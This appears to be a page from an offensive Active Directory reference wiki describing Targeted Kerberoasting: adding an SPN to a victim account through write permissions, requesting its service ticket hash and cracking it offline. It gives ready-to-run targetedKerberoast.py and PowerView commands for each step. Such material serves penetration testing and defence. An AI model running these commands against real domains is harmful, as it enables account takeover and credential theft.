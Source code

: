 # Targeted Kerberoasting

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `WriteProperty` or `Validated-SPN` over the target. A member of the [Account Operator](broken-reference) group usually has those permissions.

The attacker can add an SPN (`ServicePrincipalName`) to that account. Once the account has an SPN, it becomes vulnerable to [Kerberoasting](../kerberos/kerberoast.md). This technique is called Targeted Kerberoasting.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be done with [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) (Python)

```bash
targetedKerberoast.py -v -d $DOMAIN_FQDN -u $USER -p $PASSWORD
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, this can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) and [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Make sur that the target account has no SPN
Get-DomainUser 'victimuser' | Select serviceprincipalname

# Set the SPN
Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Obtain a kerberoast hash
$User = Get-DomainUser 'victimuser'
$User | Get-DomainSPNTicket | fl

# Clear the SPNs of the target account
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname
```
{% endtab %}
{% endtabs %}

Once the Kerberoast hash is obtained, it can possibly be [cracked](../credentials/cracking.md) to recover the account's password if the password used is weak enough.
